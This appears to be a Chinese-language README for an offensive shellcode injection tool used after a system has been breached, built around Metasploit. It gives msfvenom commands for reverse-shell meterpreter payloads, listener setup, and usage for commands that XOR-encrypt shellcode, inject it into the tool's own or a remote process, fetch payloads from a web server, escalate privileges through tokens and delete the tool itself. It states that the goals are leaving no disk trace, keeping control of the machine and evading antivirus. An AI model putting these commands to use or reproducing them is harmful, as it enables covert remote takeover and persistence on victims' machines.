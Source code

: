 # Metasploit 本地ShellCode注入工具

<br>

一款本地通用ShellCode后门注入器，该工具主要用于在后渗透阶段使用，可将后门直接注入到特定进程内存中而不会在磁盘中留下任何痕迹，注入成功后Metasploit即可获取控制权，只要对端不关机则权限会一直维持，由于内存注入无对应磁盘文件，所以也不会触发杀软报毒。

首先需要通过`Metasploit`工具生成一个有效载荷，如下是32位与64位载荷生成命令。
```
32位载荷生成
[root@lyshark ~]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c

64位载荷生成
[root@lyshark ~]# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c
```
后台侦听器的配置也分为`32`位与`6`4位，使用工具时需要与载荷的位数相对应。
```
32位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit

64位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit
```

<br>

 - 列举出目前系统中支持注入的进程
```C
InjectShellCode32.exe --show
```

 - 尝试使用令牌提权
```C
InjectShellCode32.exe --promote
```

 - 删除自身程序
```
InjectShellCode32.exe --delself
```


**将攻击载荷格式化为一行:** 将Metasploit生成的ShellCode载荷保存为文件，然后使用该命令直接将其格式化为一行。

在保存ShellCode的时候，请不要保存头部的定义部分，只保存以下代码即可。
```
C:\Users\admin\Desktop> sc32.exe Format --path d://shellcode.txt

fce88f0000006089e531d2648b52308b520c8b52148b722831ff0fb74a2631c0ac3c601d630000687773325f54684......
```

**将攻击载荷格式化并写出:** 这个格式化函数作用与上方相同，只不过可以直接写出到文件中，在你只有一个cmd权限时，可以使用。
```
C:\Users\admin\Desktop> sc32.exe FormatFile --path d://shellcode.txt --output d://format.txt

[+] 已储存 => d://format.txt
```

**加密/解密攻击载荷:** 如上我们可以将shellcode压缩为一行，然后可以调用xor命令，对这段shellcode进行加密处理。
```
C:\Users\admin\Desktop> sc32.exe Xor --path d://format.txt --passwd lyshark

% &{{%ssssssus{z&vpr'quw{!vqps{!vqs {!vqrw{!tqq{pr%%s%!tw"qupr s" p urt sqq qs r %s'
```

**压缩载荷并转字节数组:** 将一段已经压缩过的shellcode代码转换为字节数组格式，这个格式可以直接使用。
```
C:\Users\admin\Desktop> sc32.exe Xchg --input d://format.txt --output d://array.txt

[+] 字节已转为双字节
[*] 已写出ShellCode列表 => d://array.txt
```

**异或加密/解密字节数组:** 将字节数组整体加密或解密为字节数组，无需在程序代码中转换，使用更方便。
```
C:\Users\admin\Desktop>sc32.exe XorArray --path d://array.txt --passwd lyshark
```

**将攻击载荷注入自身反弹:** 将一段压缩过的shellcode注入到自身进程并反弹权限。
```
C:\Users\admin\Desktop> sc32.exe InjectSelfShell --shellcode fce88f0000006031d2648b52308b520c***
```

**注入字节数组到自身进程:** 由于字节数组无法直接命令行方式传递，所以只能在文件中获取并压缩解码反弹。
```
C:\Users\admin\Desktop> sc32.exe InjectArrayByte --path d://shellcode.txt
[+] 解码地址: 19db64
```

**从文件中读入并注入:** 从文件中读入一段已经压缩过的shellcode并执行反弹。
```
C:\Users\admin\Desktop> sc32.exe FileInjectShell --path d://format.txt
```

**注入攻击载荷到远程进程:** 该功能主要用于将代码注入到远程进程中，此处参数已经规范化。
```
C:\Users\admin\Desktop> sc32.exe InjectProcShell --pid 17948 --shellcode fce88f0000****
```

**从远程加载载荷并注入:** 从远程Web服务器上获取到需要注入的代码，远程服务器保存一行格式字符串即可。
```
C:\Users\admin\Desktop> sc32.exe InjectWebShell --address 127.0.0.1 --payload shellcode.raw
```

**直接运行加密的攻击载荷:** 加密模块可以直接运行被加密过后的shellcode并反弹，注入时需要传递解码密码。
```
C:\Users\admin\Desktop> sc32.exe EncodeInFile --path d://encode.txt --passwd lyshark
```

**加密注入远程进程反弹:** 直接注入加密后的代码到远程进程中，实现方式如上。
```
C:\Users\admin\Desktop> sc32.exe EncodePidInFile --pid 17480 --path d://encode.txt --passwd lyshark
```
